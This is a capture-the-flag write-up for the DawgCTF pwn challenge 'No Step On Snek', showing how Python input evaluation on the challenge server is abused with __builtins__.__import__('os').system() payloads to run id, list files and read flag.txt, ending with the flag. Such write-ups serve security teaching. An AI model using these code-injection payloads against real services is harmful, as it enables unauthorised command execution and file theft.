 # No Step On Snek
## Challenge
Type: Pwn
```
I heard you guys like python pwnables

nc umbccd.io 4000
```

## Solve
![null](src/nosteponsnek_null.png)

But the the maze changes every time and nothing happens when you give "w", "a", "s", "d" as input. A script is not the solution this time!

Let's try if we can use some python [builtins](https://docs.python.org/3.9/library/functions.html) or not, as it says in the challenge description.
```python
__builtins__.help()
```
![help](src/nosteponsnek_help.png)
We can definitely use builtins!!!

Use following for PoC:
```python
__builtins__.__import__("os").system("id")
```
![poc](src/nosteponsnek_poc.png)

Now we just need to find the flag and read it, listing can help us.
```python
__builtins__.__import__("os").system("ls -al")
```
![ls](src/nosteponsnek_ls.png)

Such a luck!
```python
__builtins__.__import__("os").system("cat flag.txt")
```
![flag](src/nosteponsnek_flag.png)

We've successfully captured the flag!! ``DawgCTF{bUt_iT'5_c@ll3d_1nput}``

***Written by f4T1H***
